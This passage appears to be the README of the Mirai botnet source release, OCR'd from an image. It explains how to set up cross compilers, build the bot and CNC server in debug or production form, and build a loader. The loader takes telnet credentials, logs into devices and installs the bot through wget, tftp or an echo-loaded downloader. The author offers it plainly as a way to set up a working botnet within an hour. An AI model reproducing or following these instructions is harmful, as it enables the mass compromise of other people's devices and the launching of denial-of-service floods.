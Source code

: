 To the information for the mysql server you just installed


**Setting Up Cross Compilers**

Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload `.bashrc` file for these changes to take effect.

- [script](script.sh) or pastebin: http://pastebin.com/1rRCc3aD

**Building CNC+Bot**

The CNC, bot, and related tools:
- [loader](loader)
- [mirai](mirai)

How to build bot + CNC
In mirai folder, there is build.sh script.

```
./build.sh debug telnet
```

Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to `./mirai/debug` folder

```
./build.sh release telnet
```

Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: `mirai.$ARCH` to `./mirai/release` folder


**Building Echo Loader**

Loader reads telnet entries from STDIN in following format:

```
ip:port user:pass
```

It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget.

```
./build.sh
```

Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this

```
cat file.txt | ./loader
```

Remember to `ulimit`!

Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"
